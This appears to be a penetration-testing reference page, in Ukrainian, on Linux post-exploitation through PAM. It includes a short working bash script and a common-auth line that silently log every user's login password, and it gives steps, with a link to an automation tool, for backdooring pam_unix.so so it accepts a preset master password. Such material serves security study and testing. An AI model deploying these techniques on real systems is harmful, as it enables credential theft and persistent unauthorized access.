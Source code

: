 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## Sniffing Logon Passwords with PAM

Давайте налаштуємо модуль PAM для запису кожного пароля, який використовує користувач для входу. Якщо ви не знаєте, що таке PAM, перегляньте:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Для отримання додаткової інформації перегляньте [оригінальний пост](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Це лише резюме:

**Огляд техніки:**
Плагінові модулі аутентифікації (PAM) пропонують гнучкість у керуванні аутентифікацією на системах на базі Unix. Вони можуть підвищити безпеку, налаштовуючи процеси входу, але також можуть становити ризики, якщо їх неправильно використовувати. Це резюме описує техніку захоплення облікових даних для входу за допомогою PAM, а також стратегії пом'якшення.

**Захоплення облікових даних:**

- Скрипт bash під назвою `toomanysecrets.sh` створено для запису спроб входу, захоплюючи дату, ім'я користувача (`$PAM_USER`), пароль (через stdin) та IP-адресу віддаленого хоста (`$PAM_RHOST`) у `/var/log/toomanysecrets.log`.
- Скрипт робиться виконуваним і інтегрується в конфігурацію PAM (`common-auth`) за допомогою модуля `pam_exec.so` з параметрами для тихого виконання та відкриття токена аутентифікації для скрипта.
- Цей підхід демонструє, як скомпрометований Linux-хост може бути використаний для тихого запису облікових даних.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Для отримання додаткової інформації перегляньте [оригінальний пост](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Це лише резюме:

Pluggable Authentication Module (PAM) - це система, що використовується в Linux для аутентифікації користувачів. Вона працює на трьох основних концепціях: **ім'я користувача**, **пароль** та **послуга**. Файли конфігурації для кожної служби розташовані в каталозі `/etc/pam.d/`, де спільні бібліотеки обробляють аутентифікацію.

**Мета**: Модифікувати PAM, щоб дозволити аутентифікацію з певним паролем, обходячи фактичний пароль користувача. Це особливо зосереджено на спільній бібліотеці `pam_unix.so`, яка використовується файлом `common-auth`, що включається майже всіма службами для перевірки паролів.

### Кроки для модифікації `pam_unix.so`:

1. **Знайдіть директиву аутентифікації** у файлі `common-auth`:
- Рядок, відповідальний за перевірку пароля користувача, викликає `pam_unix.so`.
2. **Модифікуйте вихідний код**:
- Додайте умовний оператор у вихідний файл `pam_unix_auth.c`, який надає доступ, якщо використовується заздалегідь визначений пароль, в іншому випадку продовжує звичайний процес аутентифікації.
3. **Перекомпілюйте та замініть** модифіковану бібліотеку `pam_unix.so` у відповідному каталозі.
4. **Тестування**:
- Доступ надається через різні служби (вхід, ssh, sudo, su, захисник екрану) з заздалегідь визначеним паролем, тоді як звичайні процеси аутентифікації залишаються незмінними.

> [!TIP]
> Ви можете автоматизувати цей процес за допомогою [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

{{#include ../../banners/hacktricks-training.md}}
